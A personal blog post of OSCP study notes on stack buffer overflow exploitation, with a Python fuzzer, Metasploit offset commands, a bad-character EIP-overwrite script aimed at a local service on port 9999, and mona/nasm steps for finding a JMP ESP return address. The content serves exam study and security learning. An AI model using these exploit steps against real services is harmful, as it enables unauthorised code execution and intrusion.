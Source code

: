 ```yaml
---
layout: post
title:  "Buffer Overflow"
date:   2018-11-08 10:00:00 +1100
categories: [buffer-overflow, offensive, security]
permalink: /:title:output_ext
comments: true
---
```

<br>
\-- This is by no means a guide on Buffer Overflow. It's one of my quick notes I prepared while stuyding for the OSCP exam.<br>
\-- I will spend some time on this post later to improve it and possibly add complete examples.<br>

\-- **PoC Code:**

    #!/usr/bin/python
    import socket

    Create an array of buffers, from 1 to 5900, with increments of 200.
    buffer=["A"]
    counter=100

    while len(buffer) <= 30:
        buffer.append("A"*counter)
        counter=counter+50

    for string in buffer:
        print "Fuzzing PASS with %s bytes" % len(string)
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect=s.connect(('127.0.0.1',9999))
        s.recv(1024)
        s.send(string + '\r\n')
    s.close()

<br>
   
```python
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 550
```

\-- Here 550 is the length at which the program crashed)<br>
\-- Now send the payload again and this will show some value in the EIP register.

```python
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 550 -q 35724134
[*] Exact match at offset 524
```

\-- I changed the string to :  "A"*524 + "B"*4 + "C"* 28

    
    #!/usr/bin/python
    import socket

    badchars = (
    "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
    "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
    "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
    "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
    "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
    "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
    "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
    "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
    "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
    "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
    "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
    "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
    "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
    "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
    "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
    "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )

    buffer = "A"*524 + "B"*4 + badchars

    try:
       print "Fuzzing PASS with %s bytes" % len(buffer)
       s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
       connect=s.connect(('127.0.0.1',9999))
       s.recv(1024)
       s.send(buffer + '\r\n')
       s.close()
    except:
       print "Could not connect to port 9999"
       
   
**!mona modules**: (to find mp esp address) ASLR or DEP shouldn't be there and the memory range of the DLL itself does not contain bad characters, such as NULL bytes in our case.

go to "e" executable modules list. locate the dll file and double click on it. Then search for a command

    311712F3   . FFE4           JMP ESP

-- If **"jmp esp"** is not found, search for the sequence
    push esp 
    retn

\-- If the above is not found, go to modules by clicking "m"
search for "jmp esp" OP code. to find the OP code we use **nasm** and it always gives the following output.

    /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
    nasm > jmp esp
    00000000 FFE4 jmp esp

**Immunity Debugger:** ```!mona find -s "\xff\xe4" -m application.dll```

\-- Now, set the EIP address to the one found from above so that "jmp esp" can be called and execution of the program points to ESP register.<br>
\-- Make sure you enter the address in "reverse order" in the payload<br>
\-- To use EAX register and jump the first few bytes (depends on the POC code for BO)

    root@kali:~# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
    nasm > add eax,12
    00000000 83C00C add eax,byte +0xc
    nasm > jmp eax
    00000000 FFE0 jmp eax
    nasm >

<br>
\-- **EDB** (evans debugger) for linux: use plugin opcode searcher ( to search for jmp esp)


<!--### Practice:
https://www.vortex.id.au/2017/05/pwkoscp-stack-buffer-overflow-practice/<br>
https://github.com/justinsteven/dostackbufferoverflowgood-->

